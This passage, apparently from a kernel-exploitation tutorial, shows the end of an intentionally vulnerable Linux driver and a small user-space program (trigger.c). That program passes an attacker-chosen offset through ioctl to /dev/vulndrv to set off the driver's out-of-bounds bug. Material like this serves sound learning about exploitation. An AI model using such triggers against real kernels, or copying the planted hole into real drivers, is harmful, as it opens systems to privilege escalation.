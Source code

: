 ```c
	class_destroy(class);
	unregister_chrdev(major_no, DEVICE_NAME);
	printk(KERN_INFO "Driver unloaded\n");
}

module_init(m_init);
module_exit(m_exit);

MODULE_LICENSE("GPL");

```

> trigger.c(用于调试时的触发漏洞)

```c
/**
 * User-space trigger application for OOB in drv.c
 *
 *
 * Full article: https://cyseclabs.com/page?n=17012016
 *
 * Author: Vitaly Nikolenko
 * Email: vnik@cyseclabs.com
 *
 **/

#define _GNU_SOURCE
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/ioctl.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include "drv.h"

#define DEVICE_PATH "/dev/vulndrv"

int main(int argc, char **argv) {
	int fd;
	struct drv_req req;

	req.offset = atoll(argv[1]);

	fd = open(DEVICE_PATH, O_RDONLY);

	if (fd == -1) {
		perror("open");
	}

	ioctl(fd, 0, &req);

	return 0;
}
```

